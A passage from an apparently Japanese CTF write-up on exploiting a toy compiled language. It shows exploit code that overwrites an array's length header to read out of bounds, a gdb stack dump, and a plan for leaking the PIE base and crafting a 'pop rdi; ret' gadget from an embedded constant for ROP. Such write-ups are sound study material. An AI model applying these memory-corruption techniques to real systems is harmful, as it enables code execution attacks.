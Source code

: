 伸ばして書き戻し、適当に範囲外のアドレスを読んでみます。この時`a0[6] += 3`などとやると、AugAssignの方に処理が行き、そこでは配列がサポートされていないのでTRAPされてしまいます。
 
```python
def gen_array(size):
    x = array(size)
    return x

def exp():
    a0 = gen_array(10)
    a1 = gen_array(3)
    a1_header = a0[6]
    a1_header += 0xbeef
    a0[6] = a1_header
    test = a1[100]

def main():
    exp()
```

無事TRAPされずに値を抜けました。注目は、stdoutにリークされなくても、値さえコピーできていれば、加算するだけで正しく合う配列にすることができるという点です。この発想は無かったです。

```
0x00007fffffffdf60│+0x0050: 0x00007fffffffdf68  →  0x1d52ce120000000a
0x00007fffffffdf68│+0x0058: 0x1d52ce120000000a ← 配列a0
0x00007fffffffdf70│+0x0060: 0x0000000000000000
0x00007fffffffdf78│+0x0068: 0x0000000000000000
0x00007fffffffdf80│+0x0070: 0x0000000000000000
0x00007fffffffdf88│+0x0078: 0x0000000000000000
0x00007fffffffdf90│+0x0080: 0x0000000000000000
0x00007fffffffdf98│+0x0088: 0x00007fffffffdfa0  →  0x1d52ce120000bef2
0x00007fffffffdfa0│+0x0090: 0x1d52ce120000bef2 ← 配列a1。長さが大きい
0x00007fffffffdfa8│+0x0098: 0x0000000000000000
0x00007fffffffdfb0│+0x00a0: 0x0000000000000000
0x00007fffffffdfb8│+0x00a8: 0x0000000000000000
0x00007fffffffdfc0│+0x00b0: 0x00007fffffffdfe8  →  0x00007fffffffe018  →  0x0000000000000000
0x00007fffffffdfc8│+0x00b8: 0x0000000000000020
0x00007fffffffdfd0│+0x00c0: 0x00007fffffffdfa0  →  0x1d52ce120000bef2
0x00007fffffffdfd8│+0x00c8: 0x0000000000000006
0x00007fffffffdfe0│+0x00d0: 0x0000000000000019
0x00007fffffffdfe8│+0x00d8: 0x00007fffffffe018  →  0x0000000000000000
0x00007fffffffdff0│+0x00e0: 0x0000000000000019 ← testの値
0x00007fffffffdff8│+0x00e8: 0x1d52ce120000bef2
0x00007fffffffe000│+0x00f0: 0x00007fffffffdfa0  →  0x1d52ce120000bef2
0x00007fffffffe008│+0x00f8: 0x00007fffffffdf68  →  0x1d52ce120000000a
0x00007fffffffe010│+0x0100: 0x0000555555555126  →  <_start+9> push rax
```

これで`a1[14]`にアクセスすると、pieの値が抜き出せます。抜けますが、その先が困ります。exp関数から抜ける時を狙いたいのでROPですが、libcはロードされないので、ガジェットで困ります。小さいプログラムなので当たり前ですが。

これは割とすんなり思いつきましたが、無ければ作ればよいだけです。`x=0xc35f`と入れるだけでガジェットは生成できます。mov命令の中に`5f c3`が埋まり、このアドレスから処理を始めれば`pop rdi;ret;`と解釈されるようになります。

作成時の他の注意点として、コードが伸びるとスタックの大きさが変わるので、変数をすべて用意した後（もしくは変数を使わない）でコンパイルし、ガジェットアドレスを求めます。戻りアドレスやガジェットがズレるのが面倒なので、`main`や`gadgets`はこの時点で上に置いて固定します。`a1[14]`にあった戻りアドレスはこの変更でスタックが伸び、`a1[18]`に移動しているのでこれもgdbで見ながら合わせます。
